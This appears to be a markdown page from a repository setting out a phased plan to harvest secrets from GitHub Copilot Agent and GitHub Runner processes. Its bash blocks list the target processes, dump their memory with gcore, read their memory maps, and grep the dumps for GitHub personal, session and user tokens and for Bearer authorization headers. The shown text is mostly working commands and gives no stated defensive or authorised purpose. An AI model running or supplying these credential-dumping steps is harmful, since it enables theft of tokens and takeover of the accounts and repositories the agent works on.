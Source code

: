 #### 0.3 Network Activity Baseline
```bash
# Monitor network connections for token usage
netstat -tulpn | grep -E "(443|80|22)" > baseline_network_connections.txt

# Check for GitHub API connections
ss -tuln | grep -E "(github|api)" > baseline_github_connections.txt
```

### Phase 1: Enhanced Memory Dump Collection Strategy

#### 1.1 Target Process Identification
```bash
# Identify all GitHub-related processes
ps aux | grep -E "(github|copilot|node|runner)"

# Target processes for analysis:
# - GitHub Copilot Agent (node process)
# - GitHub Runner processes
# - Any GitHub API client processes
```

#### 1.2 Systematic Memory Dumping
```bash
# Create memory dumps with detailed logging
for pid in $(ps -eo pid,comm | grep -E "(node|runner|github)" | awk '{print $1}'); do
    echo "Dumping PID $pid at $(date)"
    gcore -o "analysis_dump_${pid}" "$pid"
done
```

#### 1.3 Memory Region Analysis
```bash
# Analyze memory mappings for each target process
for pid in $(ps -eo pid,comm | grep -E "(node|runner|github)" | awk '{print $1}'); do
    echo "=== Memory mappings for PID $pid ===" >> memory_mappings.txt
    cat /proc/$pid/maps >> memory_mappings.txt 2>/dev/null || true
    echo "" >> memory_mappings.txt
done
```

#### 1.4 Live Memory Monitoring
```bash
# Monitor memory usage patterns before dumping
for pid in $(ps -eo pid,comm | grep -E "(node|runner|github)" | awk '{print $1}'); do
    echo "Monitoring PID $pid memory usage..."
    ps -o pid,vsz,rss,pmem,comm -p $pid >> memory_usage_baseline.txt
done
```

### Phase 2: Advanced Secret Extraction and Classification

#### 2.1 Multi-Pattern Secret Detection
```bash
# Extract potential secrets using multiple patterns
strings dump_file | grep -E "(gh[spu]_[A-Za-z0-9]{36}|[A-Za-z0-9]{40}|Bearer [A-Za-z0-9]|Authorization:|token.*[A-Za-z0-9]{20})"

# Specific GitHub token patterns:
# - ghp_ : Personal Access Tokens
# - ghs_ : Session Tokens (often internal)
# - ghu_ : User tokens
# - github_pat_ : New PAT format
```
